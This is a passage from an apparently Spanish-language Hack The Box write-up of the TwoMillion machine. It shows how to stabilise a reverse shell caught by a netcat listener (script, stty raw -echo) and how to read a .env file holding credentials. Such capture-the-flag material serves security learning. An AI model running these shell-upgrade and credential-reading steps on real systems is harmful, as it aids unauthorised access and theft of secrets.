 ```bash
# Tratamiento a la tty 
--------------------------------------------------------------
script /dev/null -c bash
Script started, output log file is '/dev/null'
^Z
[1]+  Stopped                 nc -nlvp 443
stty raw -echo;fg
              reset xterm
export TERM=xterm
export SHELL=bash
```

Si listamos detalladamente el contenido de un directorio, encontramos un archivo <span style="color:red"> .env </span>, que suele contener variables de entorno como claves de API, credenciales de base de datos, contraseñas, tokens de acceso, rutas de archivos.

![](/assets/images/HTB/writeup-twomillion/-env.png)

Entonces miremos por ahi.

```bash
# Visualizando en archivo .env
--------------------------------------------------------------
cat .env
```

![](/assets/images/HTB/writeup-twomillion/user-pass.png)
